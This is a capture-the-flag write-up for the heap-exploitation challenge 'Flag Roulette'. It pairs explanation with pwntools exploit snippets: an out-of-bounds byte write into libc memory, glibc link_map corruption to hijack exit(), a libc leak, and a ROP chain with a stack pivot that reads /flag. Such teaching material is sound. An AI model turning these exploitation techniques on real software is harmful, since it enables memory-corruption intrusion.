




# Flag Roulette

## Description

Are you tired of solving challs ? 

Here, have a little break. If we win my game, I will give you a flag.

I promise you I won't cheat :) 

The flag is in the /flag file.

Author: 0xdeadbeef

## Vulnerability

The program allows us to do 3 things : 
    
    1) We can `malloc` a chunk of any size between 0x80 bytes and 0x21000 bytes. The program will then fill the chunk with random printable chars and will allow us to modify one of them at the index of our choice. However, the program never checks that the index we give is indeed inside the boundaries of the chunk, meaning we can write a single byte anywhere beyond the chunk we allocated.
    
    2) We can free the chunk we allocated beforehand. We cannot create a new chunk without `freeing` the previous one.
    
    3) We can roll the roulette. The result of the roulette is of no importance, as the program will call `exit` either way without giving us the flag. It will, however, print the content of our chunk on the terminal.


## Exploitation

As we can only create a single chunk at a time, traditional heap exploitation is going to be very difficult. Fortunately, the program allows us to `malloc` chunks of a size >= 0x20000, which is the default threshold that `malloc` checks when allocating a chunk too big to be placed on the heap. In this case, instead of extending the heap, `malloc` will `mmap` the chunk just above the `libc` (well, just above the tls, which is just above the `libc`), meaning the byte we can write thanks to our overflow can be placed anywhere in the `libc` memory (assuming this part of memory is writable of course) as the offset between our chunk and the `libc` base address will always be the same.

### Relative write in libc

Did we not just do that by `mmapping` a chunk ? Why can we not do it again ? 

This is not as simple as that. Meet the `mp_` struct : 



Notice the `mmap_threshold` attribute. Now let's check it again after `mmapping` a chunk of size 0x20d70 and `freeing` it.



Now only chunks of size >= 0x21000 will be `mmapped`, and 0x21000 is the highest size the program accepts.
But if we `mmap` a chunk of size 0x21000, and `free` it, the `mmap_threshold` will be incremented again, meaning that we can only write 2 bytes in `libc` memory.

Luckily for us, there is a way to permanently disable this behaviour. 
If you look back at the attributes for the `mp_` struct, the `no_dyn_threshold` should stick out. It allows developpers to do just what we want to do at the moment : disabling the automatic incrementation of the `mmap_threshold`.

Armed with this knowledge, we can write a simple function to allow us to `mmap` chunks to our heart's desire : 

```python
def enable_relative_write():
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"134512") # 0x20d70
    p.recvuntil(b">")
    p.sendline(b"2061208") # offset of mp_.no_dyn_threshold
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"2")
```

Now we can write as many bytes as we want in the tls or librairies memory space.

```python
def relative_write(byte, offset):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"135168") # 0x21000
    p.recvuntil(b">")
    p.sendline(str(offset).encode())
    p.recvuntil(b">")
    p.sendline(str(byte).encode())
    p.recvuntil(b">")
    p.sendline(b"2")
```

For more information about the `mp_` struct, see the [source code](https://elixir.bootlin.com/glibc/glibc-2.37.9000/source/malloc/malloc.c#L1911)

### Leaking libc

The binary is protected with `seccomp`, meaning we will need to write a little ropchain in order to read the flag. And, as the binary is fairly small, it does not contain all the gadgets we need in order to do so. 
Our best bet is to find a way to leak the `libc` base address so we can use all the gadgets found in library, but how exactly can we do this ?

The only time that the program prints user data, it `exits` right after, so any leak we could gain during this process is useless to us.
One reasonable solution would be to attempt an FSOP on `_IO_2_1_stdout_` and use it as a read primitive as described [here](https://github.com/nobodyisnobody/docs/tree/main/using.stdout.as.a.read.primitive). However, as we are writing our bytes one by one instead of all at the same time, we cannot use this method.

So, like it or not, we will have to get a leak by turning the roulette. And to do so, we will have to force `exit()` to not exit.

#### Forcing `exit()` to not exit

Experienced pwners will know that `exit()` does a bunch of stuff before actually calling `sys_exit`. But unfortunately for us, the vast majority of the pointers used during this process are `mangled`, so we cannot just overwrite them, even partially.

Do you know what doesn't use mangled pointers ? The `link_maps` that are used during `_dl_fini` !
But wait, those `link_maps` are located in `ld` space (or `libseccomp` space in our case), not `libc` ! The ASLR should prevent us to know where they are located !
This is actually not true. The `ld` and `libc` are in consistent offset to each other (consistent if the binary is launched on the same environment everytime), thanks to `mmap` relativity. This phenomenon is neatly described in [here](https://hackmd.io/jmE0VvcTQaaJm6SEWiqUJA) (in fact, this article was one of the primary inspirations behind this challenge).

#### Determining the offset between `libc` and `ld`

As said before, you should note that the offsets between `libc` and the other librairies are fully consistent only if the binary is executed on the same environment everytime. This means that the offset you have on your setup are probably different from the offsets I have on my setup and from the offsets that are on the challenge remote machine.

However, `mmap` relativity tells us that library bases are always at the start of a memory page, which is by default 4096 bytes long. As such (and knowing the remote libraries versions), the remote offsets are easily bruteforceable. Even if we were to try all the offsets between, say 0x150000 and 0x250000 (which is *very overkill*), we only have 256 possibilities (for reference, the remote offset between `libc` and `ld` is 0x206000, and I never encountered a difference of more than 0x30 memory pages during my testing).

#### Hacking the link_maps

With that out of the way, let's go back to our `link_maps`. The `House of Blindness` technique described in the previous link (I'll put it again [here](https://hackmd.io/jmE0VvcTQaaJm6SEWiqUJA) in case you missed it ;)) is a strong basis. However, we have 2 problems : 
    1) The order of the attributes in `l_info` has changed since the writing of the `House of Blindness` article, the updated information for `libc-2.37` can be found [here](https://elixir.bootlin.com/glibc/glibc-2.37.9000/source/elf/elf.h#L873)
    2) The original technique used a partial overwrite on `ld` `link_map->l_info->DT_FINI` to redirect the control flow, but in our case, the `link_maps` of `libc` and `ld` have `l_info->DT_FINI` set to NULL !

This leaves us with the `link_maps` for the `libseccomp` and the binary itself. As our goal will be to prevent the program from exiting, the safest way of doing this is to loop back to `main`. And as the program is PIE protected, the safest option here is the `link_map` of the binary.
And we can do all the partial overwrites we want, there is no way we can make `DT_FINI` point to a memory space we control. But we are not yet screwed.

Let's look together at the [code](https://elixir.bootlin.com/glibc/glibc-2.37.9000/source/elf/dl-call_fini.c#L23) for `_dl_call_fini`: 



As in the `House of Blindness`, we want to avoid the first condition by setting `DT_FINI_ARRAY` to NULL, leaving us with the second condition.
In this one, the program will add the value located at `[DT_FINI+0x8]` (which correspond to the offset of `_fini`) to the value of `l_addr` (which corresponds to the binary base) and jumps to it. By modifying the value of `l_addr`, we can ensure that the result of this operation will be the address of `main` and not `_fini`. 

The 12 lower bits of any address are not randomized by the ASLR, so we can modify one byte without risks. 
However, we will have to modify the 2 lower bytes of `l_addr`, so we will have to guess 4 bits of ASLR (which is a 1/16 success rate, which is fine in my book).

```python
# To be able to leak libc, we need to make sure the program does not exit when calling the exit() function
# We will achieve this by attacking the link_map of the binary itself
# It is stored at ld + 0x332d0

ld = 0x239000 - 0x10
link_map = ld + 0x332d0

# First, we should have to disable link_map->l_info[DT_FINI_ARRAY]
# l_info is at offset 8 of the link_map and DT_ARRAY is at offset 26 of l_info https://elixir.bootlin.com/glibc/latest/source/elf/elf.h#L907


for i in range(8):
  relative_write(0, link_map + link_map_offsets["l_info"]["DT_FINI_ARRAY"] + i)

# Now, we cannot do a partial write on link_map->l_info[DT_FINI] to point it where a space of memory we control, as we cannot write near the memory space of the binary
# However, as the offset used in DL_CALL_DT_FINI is fixed, we could overwrite link_map->l_addr to trick the binary into cycling back to main
# The problem is, we will have to write the 2 lower bytes in link_map->l_addr, meaning we must guess 4 random bits
# This is acceptable

relative_write(0x86, link_map + link_map_offsets["l_addr"])
relative_write(0x2c, link_map + link_map_offsets["l_addr"] + 1)
```

#### Heap feng shui

Now that we can loop back to main after exit, we need to find an address to leak.
The official `solve.py` script uses the following function : 

```python
def heap_feng_shui():

  for i in range(16):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"128")
    p.recvuntil(b">")
    p.sendline(str(128+i).encode())
    p.recvuntil(b">")
    p.sendline(b"32")
    p.recvuntil(b">")
    p.sendline(b"2")

```

Basically, we allocate a chunk of size 0x80, then we `free` it so it goes into the unsorted bins, meaning it will contain a `libc` address.
Afterwards, we allocate another chunk of size 0x80 that will be above the other one. Using our relative write, we write printable chars between this chunk and the one in unsorted bins. 
It will break the heap but it will work.

We can spin the roulette and, if we guessed the 4 bits of ASLR right, we will loop back to main.

### Cleaning the heap

We are back in `main`, but the heap is broken.
We need to clean it first.

```python
def heap_cleaning():

  for i in range(8):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+i).encode())
    p.recvuntil(b">")
    p.sendline(b"0")
    p.recvuntil(b">")
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+8).encode())
    p.recvuntil(b">")
    p.sendline(b"113") # 0x71
    p.recvuntil(b">")
    p.sendline(b"2")

  for i in range(7):
    p.recvuntil(b">")
    p.sendline(b"1")
    p.recvuntil(b">")
    p.sendline(b"200")
    p.recvuntil(b">")
    p.sendline(str(2592+9+i).encode())
    p.recvuntil(b">")
    p.sendline(b"0")
    p.recvuntil(b">")
    p.sendline(b"2")
```

### Building our ropchain

We have a leak, we know where the flag file is, and the `seccomp` profile allows `sys_open`, `sys_read` and `sys_write`.
This isn't even a challenge, we can let `pwntools` do the heavy lifting.

```python
# Writing the filename of the flag in memory
filename_addr = libc.address - 0x2a00
filename_offset = 0x225f0
filename = b"/flag"
for i in range(len(filename)):
  relative_write(filename[i], filename_offset + i)

# Writing our ropchain in memory
rop = ROP(libc)
rop(rax=2, rdi=filename_addr, rsi=0, rdx=0)
rop.raw(syscall)
rop(rax=0, rdi=3, rsi=filename_addr, rdx=0x100)
rop.raw(syscall)
rop(rax=1, rdi=1, rsi=filename_addr, rdx=100)
rop.raw(syscall)
rop(rax=60, rdi=0)
rop.raw(syscall)

ropchain = rop.chain()
ropchain_offset = 0x22008
```

### Stack Pivoting

Now, we just need a way a pivot the stack, then we'll have the flag.

To be fair, at this point, there is probably a lot of ways to do it. But since we hacked the `link_maps` earlier, let's continue.

We have 2 gadgets in `libc` that we can use : 

```asm
mov rsp, r8; mov rbp, r9; jmp rdx;
mov r8, rdx; mov qword ptr [rdi], r8; mov qword ptr [rdi + 8], rcx; xor eax, eax; ret;
```

In my solve script, I used the `link_maps` of the binary and of the `libseccomp`, but any of the 4 `link_maps` used in `_dl_fini` should work, as `r8` is never used neither in `_dl_call_fini` .

```python
# Now for the fun part
# We need to pivot the stack so that rsp points to the start of our ropchain
# We have the following gadget in libc : 
#    0x000000000003c338: mov rsp, r8; mov rbp, r9; jmp rdx;
stack_pivot_gadget = libc.address + 0x000000000003c338

# But how exactly do we control the value of r8 ?
# We have another gadget in libc just for that : 
#     mov r8, rdx; mov qword ptr [rdi], r8; mov qword ptr [rdi + 8], rcx; xor eax, eax; ret;
mov_r8_rdx = libc.address + 0x000000000004118b

# Now let's chain them by corrupting the link_maps once again :p


# Let's start once again by the link_map of the binary itself
ld = 0x239000 - 0x10
link_map = ld + 0x332d0

# Put the address of our ropchain in rdx
for i in range(len(p64(ropchain_addr))):
  relative_write(p64(ropchain_addr)[i], link_map + link_map_offsets["l_info"]["DT_FINI"] + i)

# Put the address of our mov_r8_rdx gadget in rax
for i in range(len(p64(mov_r8_rdx))):
  relative_write(p64(mov_r8_rdx)[i], link_map + link_map_offsets["l_addr"] + i)


# Now, we will corrupt the next link-map : the link-map of the libseccomp
libseccomp = 0x207000 - 0x10
link_map = libseccomp + 0x30170

# Disable DT_FINI_ARRAY
for i in range(8):
  relative_write(0, link_map + link_map_offsets["l_info"]["DT_FINI_ARRAY"] + i)

# Put the address of a add_rsp gadget into rdx
# The added value itself is not very important (as long as it allows us to add at least 0x10)
# Put we must know the value of the QWORD behind, because _dl_call_fini will add it added to rax before jumping
for i in range(len(p64(add_rsp_0x18))):
  relative_write(p64(add_rsp_0x18)[i], link_map + link_map_offsets["l_info"]["DT_FINI"] + i)

# Put the address of our stack_pivot_gadget in rax minus the value at [rdx+8] that will be added
to_set = p64((stack_pivot_gadget - 0x0824748d48000044) & 0xffffffffffffffff)
for i in range(len(to_set)):
  relative_write(to_set[i], link_map + link_map_offsets["l_addr"] + i)
```

It is almost done.
The only problem is that, if we `exit` now, `_dl_fini` will never be called :/

The program doesn't really like exiting 2 times so we have to patch the `initial` struct before exiting.

```python
# Reparing the initial struct
relative_write(1, 0x1fa2f8)
relative_write(4, 0x1fa300)
```

And just like that, you can flag ^^.




I hope you enjoyed it ^^
